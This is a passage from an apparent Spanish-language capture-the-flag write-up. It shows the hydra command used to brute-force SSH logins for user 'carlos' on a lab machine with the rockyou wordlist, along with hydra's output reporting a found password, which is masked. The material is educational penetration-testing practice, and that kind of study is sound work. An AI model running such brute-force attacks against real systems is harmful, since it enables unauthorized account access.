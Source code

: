 <img src="/assets/images/THL-writeup-cachopo/Captura7.png">
</p>

Son nombres, quiero pensar que son usuarios.

Supongo que debemos aplicarles fuerza bruta para saber cuál de estos pertenece al **servicio SSH**.

<br>

<h2 id="fuerzaBruta">Aplicando Fuerza Bruta a Usuarios Encontrados</h2>

Para agilizar un poco este proceso, en lugar de guardar los nombres en un solo archivo como una lista (que sería lo ideal), vamos a aplicarle fuerza bruta con **hydra** a cada usuario, pero con un límite de 10 minutos cada uno.

Esto resultó en descubrir que el **usuario carlos**, es el vulnerable a la fuerza bruta:
```bash
hydra -l 'carlos' -P /usr/share/wordlists/rockyou.txt ssh://192.168.10.230 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-28 11:46:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.10.230:22/
[22][ssh] host: 192.168.10.230   login: carlos   password: *******
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 26 final worker threads did not complete until end.
[ERROR] 26 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-28 11:47:05
```
